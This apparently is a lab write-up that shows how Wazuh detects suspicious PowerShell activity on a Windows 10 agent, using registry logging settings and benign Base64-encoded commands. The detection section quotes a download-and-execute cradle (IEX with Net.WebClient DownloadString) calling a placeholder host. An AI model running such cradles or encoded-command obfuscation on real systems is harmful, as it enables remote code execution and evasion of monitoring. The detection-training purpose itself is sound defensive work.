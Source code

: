 # Introduction
Wazuh is an open-source security monitoring platform designed for threat detection, integrity monitoring, incident response, and compliance. in this exercise we will do a simple threat detection with Wazuh.

We will some run some Powershell commands in a windows agents and then see if we can detect it in the Wazuh Manager.

# Environment
windows 10

Wazuh installed in Ubuntu.

# Executing some Powershell commands to trigger alerts.

Create the base path if missing

New-Item -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell" -Force | Out-Null.

![Creating path and scripts in registry](Images/Creating-path.png)

Enable Module Logging

New-Item -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging" -Force | Out-Null
New-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging" `
    -Name "EnableModuleLogging" -Value 1 -PropertyType DWord -Force | Out-Null

![Enable script block logging phase](Images/Enable-Script-Block-Logging.png)

![Triggering multiple alerts simulation](Images/Triggering-another-alert.png)

Get-Process and save the process list (objects) into the variable $proc.

$proc = Get-Process

store PowerShell command (list processes and write to file) into the variable $cmd

$cmd = 'Get-Process | Out-File C:\Users\Public\wazuh_trigger_procs.txt'

![Write to temp file](Images/write-to-a-temp-file.png)

write the contents of $proc to processes.txt again.

$proc | Out-File C:\Users\Public\processes.txt

place the command string into $command (this will be encoded next)

$command = "Get-Process | Out-File C:\Users\Public\proclist.txt"

convert the string in $command into a Unicode byte array, stored in $bytes

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

Base64-encode that byte array and store result in $encoded.

$encoded = [Convert]::ToBase64String($bytes)

start PowerShell directly (no profile) and run the Base64-encoded command, which executes Get-Process | Out-File C:\Users\Public\proclist.txt.

powershell.exe -NoProfile -EncodedCommand $encoded

![Write to temp file](Images/write-to-a-temp-file2.png)



# Detection
When we go the Wazuh dashboard and look at the events we will be able to see alerts related to the all the commands we executed in the windows machine.

![Wazuh dashboard showing detections](Images/Dashboard-Events.png)

We can click on the first one at the top. We will see the 

![Clicking into first event](Images/clicking-first-event.png)

When we click on the event, we can see a detailed information related to suspicious PowerShell activity. Some details we can see are and important when investigating is agent.ip & agent.name: Identifies the monitored endpoint that generated the alert. The machine (Windows10) with the local IP 192.168.x.x is the source of the event. 
data.win.eventdata.image: Displays the executable responsible for the event. in this case, powershell.exe. It indicates that PowerShell was executed from the system directory, which is typical, but important for monitoring command-line activity.
data.win.eventdata.targetFileName: Shows the path of a temporary file created during script execution:
C:\Users\PCI1\AppData\Local\Temp\_PSscriptPolicyTest_dxlxny1g.tmp.ps1.
This suggests a temporary PowerShell script file was created, often a sign of encoded or dynamically generated code.
 data.win.eventdata.user: Indicates the Windows user (DESKTOP-KEUMS0K\PCI1) who ran the command. Helps correlate activity to a specific account.
data.win.system.channel: Specifies the source of the event log, in this case, Microsoft-Windows-Sysmon/Operational, meaning the detection came through Sysmon monitoring integrated with Wazuh.
data.win.system.message: Logs the complete action “File created,” confirming that the PowerShell process wrote to the temp directory, an action correlated with suspicious or automated script behavior


![PowerShell process shown](Images/Powershell-exe.shown.png)

![Detailed evoke command analysis](Images/analysisofevokecommand.png)

![Deep dive view showing rule ID and MITRE mapping](Images/Further-analysis.png)

![Expanding first event for deeper insight](Images/clicking-first-event.png)

If we go to the next event, we and click on it we can see what has happened. For example, from the screenshots we have below we can see.
The event originates from the Microsoft-Windows-PowerShell/Operational log channel with Event ID 4104, indicating a PowerShell script block was executed and logged.
The scriptBlockText shows the PowerShell command executed:
IEX (New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')
This command downloads and executes a remote PowerShell script directly in memory, which is a common post-exploitation or malware technique.
The alert's severity level is 5, which is high, reflecting the potential risk of remote code execution.
The ScriptBlock ID is a unique identifier to track this particular script block execution.
Other metadata includes the computer name (DESKTOP-KEUM5QK), agent information, and event record details for correlation and investigation.


![Reviewing secondary script block detection](Images/secondevent-information.png)

![Wazuh showing extended metadata](Images/Moreinforonthefirstevent.png)

## Conclusion

This experiment demonstrates end-to-end visibility into PowerShell activity using Wazuh:

simulated real PowerShell misuse, such as encoded commands and temp file creation.  

showcased Wazuh’s analytical power in detecting, decoding, and classifying these behaviors.

By combining PowerShell logging (Module + Script Block) with Wazuh’s SIEM engine, even subtle or obfuscated PowerShell attacks become fully visible for threat hunting and incident response.

